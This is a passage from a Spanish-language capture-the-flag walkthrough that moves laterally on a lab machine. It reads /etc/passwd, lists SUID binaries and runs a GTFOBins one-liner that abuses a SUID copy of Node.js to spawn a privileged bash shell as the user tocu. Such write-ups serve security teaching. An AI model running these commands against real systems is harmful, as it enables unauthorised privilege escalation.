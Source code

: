 ## Movimiento lateral al usuario tocu

Estabilizamos la shell para facilitar su uso y enumeramos los usuarios presentes en el sistema, identificando a `tocu` y `root`.

```bash
www-data@slywindow:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
tocu:x:1000:1000:tocu,,,:/home/tocu:/bin/bash
```

Enumeramos los archivos con el bit SUID habilitado para identificar posibles vectores de escalada de privilegios.

```bash
find / -perm -4000 2> /dev/null
```

```bash
www-data@slywindow:/dev/shm$ find / -perm -4000 2> /dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/opt/backup/backup_utility
/opt/loginandvisit/tocunode
```

Identificamos dos binarios potencialmente interesantes. Analizamos ambos para determinar su funcionalidad: no disponemos de permisos de ejecución sobre `/opt/backup/backup_utility`, pero sí podemos ejecutar `/opt/loginandvisit/tocunode`.

```bash
www-data@slywindow:/dev/shm$ ls -lh /opt/loginandvisit/tocunode
-rwsr-sr-x 1 tocu tocu 116M Jul 30 20:44 /opt/loginandvisit/tocunode
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode  
Welcome to Node.js v22.17.1.
Type ".help" for more information.
> 
(To exit, press Ctrl+C again or Ctrl+D or type .exit)
> 
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode --version
v22.17.1
```

Se trata de una copia de Node.js propiedad del usuario `tocu` con el bit SUID habilitado. Consultando GTFOBins, identificamos una técnica para aprovechar este binario y escalar privilegios, obteniendo acceso como el usuario `tocu`.

```bash
/opt/loginandvisit/tocunode -e 'require("child_process").spawn("/bin/bash", ["-p"], {stdio: [0, 1, 2]})'
```
